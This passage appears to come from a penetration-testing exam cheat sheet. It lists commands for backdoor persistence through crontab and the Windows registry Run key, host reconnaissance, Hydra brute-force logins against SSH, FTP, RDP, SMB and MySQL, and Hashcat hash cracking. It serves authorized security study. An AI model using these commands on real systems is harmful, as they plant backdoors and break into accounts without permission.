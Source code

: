 - **Persistence**
```bash
echo "* * * * * root /tmp/rev.sh" >> /etc/crontab
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Backdoor /t REG_SZ /d "C:\path\to\backdoor.exe"
```
*What to look for:* Ability to maintain access after reboot.  
*What to do next:* Set up persistence only if allowed by exam rules.

- **Host Recon**
```bash
whoami > whoami-output.txt
hostname > hostname-output.txt
ipconfig /all > ipconfig-output.txt
ifconfig > ifconfig-output.txt
ps aux > ps-output.txt
tasklist > tasklist-output.txt
netstat -ano > netstat-output.txt
```
*What to look for:* User context, running processes, network connections.  
*What to do next:* Identify interesting processes, connections, or users for further exploitation.

### Password Cracking Tools

#### Hydra
Hydra is a fast and flexible login cracker supporting numerous protocols.

**Common Usage Examples:**
```bash
# SSH Brute Force
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://target.com -o hydra-ssh-output.txt
# FTP Brute Force
hydra -l user -P /usr/share/wordlists/rockyou.txt ftp://target.com -o hydra-ftp-output.txt
# HTTP Basic Auth
hydra -l admin -P passwords.txt http-get://target.com/login -o hydra-http-output.txt
# RDP Brute Force
hydra -t 4 -V -f -l user -P /usr/share/wordlists/rockyou.txt rdp://target.com -o hydra-rdp-output.txt
# SMB Brute Force
hydra -l user -P /usr/share/wordlists/rockyou.txt smb://target.com -o hydra-smb-output.txt
# MySQL Brute Force
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://target.com -o hydra-mysql-output.txt
```
*What to look for:* Successful logins, valid credentials.  
*What to do next:* Use credentials to access services, escalate privileges, or pivot.

#### Hashcat
Hashcat is a powerful password recovery tool for cracking hashes.

**Common Usage Examples:**
```bash
# Crack an MD5 hash
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -o hashcat-md5-cracked.txt
# Crack a SHA1 hash
hashcat -m 100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -o hashcat-sha1-cracked.txt
# Crack a NTLM hash
hashcat -m 1000 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -o hashcat-ntlm-cracked.txt
# Crack a bcrypt hash
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -o hashcat-bcrypt-cracked.txt
# Crack a ZIP file hash
hashcat -m 13600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -o hashcat-zip-cracked.txt
# Crack with rules
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt -r rules/best64.rule -o hashcat-md5-rules-cracked.txt
```
*What to look for:* Cracked passwords in output file.  
